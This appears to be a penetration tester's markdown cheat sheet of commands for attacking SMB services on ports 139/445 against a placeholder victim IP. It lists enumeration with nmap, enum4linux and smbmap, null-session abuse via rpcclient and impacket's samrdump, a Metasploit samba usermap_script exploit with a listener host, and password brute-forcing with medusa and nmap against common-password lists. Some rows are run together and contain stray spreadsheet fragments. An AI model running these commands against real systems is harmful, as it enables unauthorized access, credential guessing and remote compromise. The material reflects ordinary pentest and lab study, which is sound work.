 # 🔥 SMB

Tags: #🔥
Related to:
See also:
Previous: [[TTP]]

## Description

## Usage Examples

|Categories|OS|Tool|Intent|Command|Comments|
|:----|:----|:----|:----|:----|:----|
|139/445 - smb|Linux|nmblookup |Enumerate hostname|`nmblookup -A <victim_ip>`| |
|139/445 - smb|Linux|enum4linux|Enumerate hostname|`enum4linux -n <victim_ip>`|Versions Samba 2.2.x are red flag|
|139/445 - smb|Linux / Windows|nmap|Quick Enumeration|`nmap --script=smb-enum* --script-args=unsafe=1 -T5 <victim_ip>`| |
|139/445 - smb|Linux|smbver script|get version|`smbver.sh <victim_ip>`|Script used to get smb version if nmap fails|
|139/445 - smb|Linux|Metasploit|get version|`Msfconsole;use scanner/smb/smb_version`|metasploit modele to get smb version|
|139/445 - smb|Linux|ngrep|get version|`ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]' smbclient -L \\\\<victim_ip>`|Manual method to get version if all else fails|
|139/445 - smb|linux / windows|wireshark|get version|`#1:run Wireshark #2:smbmap -H <victim_ip> #3:follow the tcp stream of the smb negotiation`|noted by  1kwstassak in reddit.com|
|139/445 - smb|linux|smbmap|get shares|`smbmap -H  <victim_ip> -R <sharename>`| Recursively display files in specific share139/445 – smb|linux|smbclient|get shares|echo exit | smbclient -L \\\\$ip| |
|139/445 - smb|linux|smbclient|get shares|`smbclient \\\\<victim_ip>\\<share>` |more details in cherrytree file (1.information gathering > Active > Enumeration > Services > 139.SMB)|
|139/445 – smb|linux|smbclient|get shares|`smbclient -L //<victim_ip> -N`|-N Force the tool to not ask for password|
|139/445 - smb|Linux / Windows|nmap|get shares|`nmap --script smb-enum-shares -p139,445 -T4 -Pn <victim_ip>`| |
|139/445 - smb|linux|smbclient|get shares|`smbclient -L \\\\<victim_ip>\\` |more details in cherrytree file (1.information gathering > Active > Enumeration > Services > 139.SMB)|
|139/445 - smb|linux|smbmap|Check Null Sessions|`smbmap -H <victim_ip>`|vulnerable version :  Windows NT, 2000, and XP (most SMB1) - VULNERABLE: Null Sessions can be created by default  Windows 2003, and XP SP2 onwards - NOT VULNERABLE: Null Sessions can't be created default  Most Samba (Unix) servers|
|139/445 – smb|linux|rpcclient|Check Null Sessions|`rpcclient -U "" -N $ip`| |
|139/445 – smb|linux|smbclient|Check Null Sessions|`smbclient //<victim_ip>/IPC$ -N`|Success #:/smb>|
|139/445 – smb|linux|enum|Exploit null Sessions|`enum -s <victim_ip>`|enumerate the shares of a machine|
|139/445 – smb|linux|enum|Exploit null Sessions|`enum -U <victim_ip>`|-U enumerate usersA133:AMJ133|
|139/445 – smb|linux|enum|Exploit null Sessions|`enum -P <victim_ip>`|-P check the password policy|
|139/445 – smb|linux|enum4linux|Exploit null Sessions|`enum4linux -a <victim_ip>`|enum4linux -a (use all enum switches useres/shares/password policies)|
|139/445 – smb|linux|samrdump.py|Exploit null Sessions|`using /usr/share/doc/python3-impacket/examples/samrdump.py #./samrdump.py <victim_ip>`| |
|139/445 - smb|linux|smbclient|connect to Username shares|`smbclient //$ip/share -U username`|this step required u have a cred|
|139/445 - smb|linux|smbclient|connect to share Anonymously|`smbclient \\\\<victim_ip>\\<share>`|more details in cherrytree file (1.information gathering > Active > Enumeration > Services > 139.SMB) Example : smbclient \\\\<victim_ip>\\IPC$|
|139/445 - smb|linux|smbclient|connect to share Anonymously|`smbclient //<victim_ip>/<share>`| |
|139/445 - smb|linux|smbclient|connect to share Anonymously|`smbclient //<victim_ip>/<share\ name> smbclient //<victim_ip>/<"share name">`|If share has a space inbetween its name (eg. "My Shares")|
|139/445 - smb|linux|rpcclient|connect to share Anonymously|`rpcclient -U " " <victim_ip>`|Connect to null share which is the IPC$ share, enumerate with specifc commands, refer to onenote|
|139/445 - smb|linux|rpcclient|connect to share Anonymously|`rpcclient -U " " -N <victim_ip>`|Connect to null share which is the IPC$ share, enumerate with specifc commands, refer to onenote|
|139/445 – smb|linux / Windows|nmap|check vuln|`nmap --script smb-vuln* -p139,445 -T4 -Pn <victim_ip>`| |
|139/445 – smb|Linux / Windows|Metasploit|check common security concerns|`#msf> resource smb_checks.rc  Or  # msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc`|# This resource scripts will check common security concerns on SMB for Windows.  # Specifically, this script will check for these things: #  #   * MS08-067.  #   * MS17-010.  #   * SMB version 1. #|
|139/445 – smb|Linux / Windows|Metasploit|extra validation|`#msf> resource smb_validate.rc Or  # msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc`|after running the previous check139/445 – smb|Linux / Windows|Metasploit|multi exploits|msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost $ip; run| |
|139/445 – smb|linux|nmap/medusa|Brute Force login|`after enumerating users u can brute force login  #medusa -h <victim_ip> -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt  #nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt <victim_ip>  -vvvv #nmap –script smb-brute <victim_ip>`| |

# Resources